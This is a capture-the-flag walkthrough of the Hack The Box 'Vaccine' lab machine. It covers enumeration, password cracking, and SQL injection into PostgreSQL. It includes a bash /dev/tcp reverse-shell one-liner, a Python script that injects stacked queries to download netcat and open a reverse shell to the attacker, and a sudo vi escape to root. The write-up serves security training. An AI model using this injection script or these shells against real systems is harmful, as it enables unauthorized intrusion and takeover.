

# Vaccine

Starting point > Vaccine

# Enumeration

Note: this starting point machine only features a `root.txt`

We begin by running an Nmap scan.

~~~
unknown@kali:/data$ nmap -sC -sV 10.10.10.46
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-12 18:21 CEST
Nmap scan report for 10.10.10.46
Host is up (0.082s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.06 seconds
~~~

Running a simple Nmap scan reveals three open ports running, for FTP, SSH and Apache respectively.

The credentials `ftpuser` / `mc@F1l3ZilL4` can be used to login to the FTP server.

~~~
unknown@kali:/data$ ftp 10.10.10.46
Connected to 10.10.10.46.
220 (vsFTPd 3.0.3)
Name (10.10.10.46:unknown): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x    2 65534    65534        4096 Feb 03 11:27 .
dr-xr-xr-x    2 65534    65534        4096 Feb 03 11:27 ..
-rw-r--r--    1 0        0               2 Feb 03 11:23 a
-rw-r--r--    1 0        0            2533 Feb 03 11:27 backup.zip
226 Directory send OK.
ftp> get backup.zip
local: backup.zip remote: backup.zip
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
226 Transfer complete.
2533 bytes received in 0.00 secs (3.7279 MB/s)
ftp> 
~~~

A file named `backup.zip` is found in the folder. Extraction of the archive fails as it's password protected:

~~~
unknown@kali:/data/tmp$ unzip backup.zip 
Archive:  backup.zip
[backup.zip] index.php password: 
   skipping: index.php               incorrect password
   skipping: style.css               incorrect password

~~~

The password can be cracked using JohntheRipper and rockyou.txt.

~~~
unknown@kali:/data/tmp$ zip2john backup.zip > backup.hash
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: 2b chk, TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
unknown@kali:/data/tmp$ /data/src/john/run/john backup.hash --wordlist=/usr/share/wordlists/rockyou.txt Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)
1g 0:00:00:00 DONE (2020-06-12 18:41) 12.50g/s 51200p/s 51200c/s 51200C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

The password is found to be `741852963`. Extracting it's contents using the password reveals a PHP file and a CSS file.

~~~
unknown@kali:/data/tmp$ unzip backup.zip 
Archive:  backup.zip
[backup.zip] index.php password: 
  inflating: index.php               
  inflating: style.css               
~~~

Looking at the PHP source code, we find a login check.

```php
unknown@kali:/data/tmp$ head index.php 
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

The input password is hashed and compared to the MD5 hash: `2cb42f8734ea607eefed3b70af13bbd3`. This hash can be easily cracked using an online rainbow table such as crackstation.



The password is cracked as `qwerty789`.

# Foothold

## SQL injection identification

Browsing to port 80, we can see a login page for MegaCorp.


The credentials `admin / qwerty789` can be used to login.


The page is found to host a Car Catalogue, and contains functionality to search for products. Searching for a term results in the following request.

~~~
http://10.10.10.46/dashboard.php?search=a
~~~

The page takes in a GET request with the parameter `search`. This URL is supplied to sqlmap, in order to test for SQL injection vulnerabilities. The website uses cookies, which can be specified using `--cookie`.

Right-click the page and select `Inspect Element`. Click the `Storage` tab and copy the PHP Session ID.


We can construct the Sqlmap query as follows:

~~~
unknown@kali:/data$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie='PHPSESSID=tcer626cqoumebdilfbbib1l57'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.6#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:11:58 /2020-06-12/

[20:11:58] [INFO] resuming back-end DBMS 'postgresql' 
[20:11:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=a' AND (SELECT (CASE WHEN (9551=9551) THEN NULL ELSE CAST((CHR(115)||CHR(108)||CHR(68)||CHR(99)) AS NUMERIC) END)) IS NULL-- XqWO

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=a' AND 1525=CAST((CHR(113)||CHR(98)||CHR(120)||CHR(98)||CHR(113))||(SELECT (CASE WHEN (1525=1525) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(107)||CHR(112)||CHR(113)||CHR(113)) AS NUMERIC)-- tJKF

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=a' AND 8099=(SELECT 8099 FROM PG_SLEEP(5))-- bjrW
---
[20:11:58] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[20:11:58] [INFO] fetched data logged to text files under '/home/unknown/.sqlmap/output/10.10.10.46'

[*] ending @ 20:11:58 /2020-06-12/
~~~

Sqlmap found the page to be vulnerable to multiple injections, and identified the backend DBMS to be PostgreSQL. Getting code execution in postgres is trivial using the --os-shell command.

## Automatic way (using sqlmap)

**Note: this has not been working for me (tested on 2 machines with different OS and different versions of sqlmap). Either jump to the next section (manual way) or connect to SSH with `postgres:P@s5w0rd!`**

~~~
unknown@ubuntu:/data$ sqlmap.py -u 'http://10.10.10.46/dashboard.php?search=a' --cookie='PHPSESSID=ojq8sk0069d5h4uq96qr93c063' --os-shell

[REDACTED]

---
[11:32:48] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[11:33:02] [INFO] fingerprinting the back-end DBMS operating system
[11:33:14] [INFO] the back-end DBMS operating system is Linux
[11:33:19] [INFO] testing if current user is DBA
[11:33:51] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[11:35:21] [CRITICAL] connection timed out to the target URL
[11:35:51] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[11:37:21] [CRITICAL] connection timed out to the target URL
[11:37:21] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[11:37:51] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
~~~

This can be used to execute a bash reverse shell.

~~~
bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'
~~~


## Manual way

**If like me, you haven't been able to use sqlmap, use the manual way or connect to SSH with `postgres:P@s5w0rd!`**

You can use the following python [script](files/sql2shell.py):

```python
#!/usr/bin/env python3

import requests
import random

# Change these values
clientip = "10.10.14.195"
clientport = 4444

# Not supposed to change these values
srvip = "10.10.10.46"
url = "dashboard.php?search=x"
target = "http://{}/{}".format(srvip, url)
username = "admin"
password = "qwerty789"
# table suffix (to give a chance to be unique)
suffix = random.randrange(1000, 9999)

# Login
s = requests.Session()
auth = {'username':username, 'password':password}
s.post("http://{}".format(srvip), data=auth)

# DROP TABLE
payload = "{}';DROP TABLE IF EXISTS cmd_{}; -- -".format(target, suffix)
r = s.get(payload)

# CREATE TABLE
payload = "{}';CREATE TABLE cmd_{}(cmd_output text); -- -".format(target, suffix)
r = s.get(payload)

# NETCAT
### nc is already installed on the server but we can't use it. Forced to download it in /tmp
payload = "{}';COPY cmd_{} FROM PROGRAM 'wget -P /tmp/{} http://{}/nc'; -- -".format(
  target, suffix, suffix, clientip)
r = s.get(payload)

payload = "{}';COPY cmd_{} FROM PROGRAM 'chmod 777 /tmp/{}/nc'; -- -".format(
  target, suffix, suffix)
r = s.get(payload)

payload = "{}';COPY cmd_{} FROM PROGRAM '/tmp/{}/nc -e /bin/bash {} {}'; -- -".format(
  target, suffix, suffix, clientip, clientport)
r = s.get(payload)
```

First copy `nc` and make it available via a python web server:

~~~
$ cp /usr/bin/nc /data/tmp/
$ sudo python3 -m http.server 80
~~~

Start a listener on the port you specified in the script:

~~~
$ rlwrap nc -nlvp 4444
~~~

Now, start the script:

~~~
$ python3 sql2shell.py
~~~

You should get a reverse shell.

## User flag

Now in your reverse shell:

~~~
postgres@vaccine:/var/lib/postgresql/11/main$ find / -type f -name user.txt 2>/dev/null
/var/lib/postgresql/user.txt
postgres@vaccine:/var/lib/postgresql/11/main$ cat /var/lib/postgresql/user.txt
<ostgresql/11/main$ cat /var/lib/postgresql/user.txt
139d3e5c3db18073d250ce0dccc43997
~~~

# Privilege Escalation

Let's upgrade to a tty shell and continue enumeration.

~~~
SHELL=/bin/bash script -q /dev/null
postgres@vaccine:/var/lib/postgresql/11/main$ 
~~~

Looking at the source code of dashboard.php in /var/www/html reveals the postgres password to be: P@s5w0rd!.

```php
postgres@vaccine:/var/www/html$ grep -C1 pg_connect /var/www/html/dashboard.php 
  try {
    $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
  }
```

This password can be used to view the user's sudo privileges.

~~~
postgres@vaccine:/var/www/html$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
~~~

The user is allowed to edit the configuration `/etc/postgresql/11/main/pg_hba.conf` using `vi`. This can be leveraged to gain a root shell and access `root.txt`.

~~~
postgres@vaccine:/var/www/html$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf 
~~~

Now in `vi`, use the command `:!/bin/bash` to open a shell as root:

~~~
root@vaccine:/var/www/html# whoami
root
root@vaccine:/var/www/html# cat /root/root.txt 
dd6e058e814260bc70e9bbdef2715849
~~~